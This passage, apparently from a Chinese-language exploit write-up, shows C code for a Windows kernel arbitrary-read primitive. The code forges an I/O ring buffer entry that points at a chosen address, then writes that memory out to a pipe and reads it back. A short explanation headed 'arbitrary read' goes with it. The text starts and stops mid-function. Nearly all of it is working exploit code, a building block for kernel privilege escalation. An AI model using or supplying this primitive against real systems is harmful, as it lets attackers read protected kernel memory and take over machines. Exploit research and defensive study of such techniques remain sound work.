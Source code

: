 ```
        goto done;
    }
 
    ret = 0;
 
done:
    return ret;
}
```  
####   
#### 任意读  
  
  
首先设置好读取数据地址和长度，在通过BuildIoRingWriteFile将ReadAddr处的数据写入到管道中，再从管道中将数据读取到ReadBuffer中。  
```
int ioring_read(PULONG64 pRegisterBuffers, ULONG64 pReadAddr, PVOID pReadBuffer, ULONG ulReadLen)
{
    int ret = -1;
    PIOP_MC_BUFFER_ENTRY pMcBufferEntry = NULL;
    IORING_HANDLE_REF reqFile = IoRingHandleRefFromHandle(hOutPipeClient);
    IORING_BUFFER_REF reqBuffer = IoRingBufferRefFromIndexAndOffset(0, 0);
    IORING_CQE cqe = { 0 };
 
    pMcBufferEntry = VirtualAlloc(NULL, sizeof(IOP_MC_BUFFER_ENTRY), MEM_COMMIT, PAGE_READWRITE);
 
    if (NULL == pMcBufferEntry)
    {
        ret = GetLastError();
        goto done;
    }
 
    pMcBufferEntry->Address = pReadAddr;
    pMcBufferEntry->Length = ulReadLen;
    pMcBufferEntry->Type = 0xc02;
    pMcBufferEntry->Size = 0x80;
    pMcBufferEntry->AccessMode = 1;
    pMcBufferEntry->ReferenceCount = 1;
 
    pRegisterBuffers[0] = pMcBufferEntry;
 
    ret = BuildIoRingWriteFile(hIoRing, reqFile, reqBuffer, ulReadLen, 0, FILE_WRITE_FLAGS_NONE, NULL, IOSQE_FLAGS_NONE);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ret = SubmitIoRing(hIoRing, 0, 0, NULL);
 
    if (0 != ret)
    {
        goto done;
    }
 
    ret = PopIoRingCompletion(hIoRing, &cqe);
 
    if (0 != ret)
    {
        goto done;
    }
 
    if (0 != cqe.ResultCode)
    {
```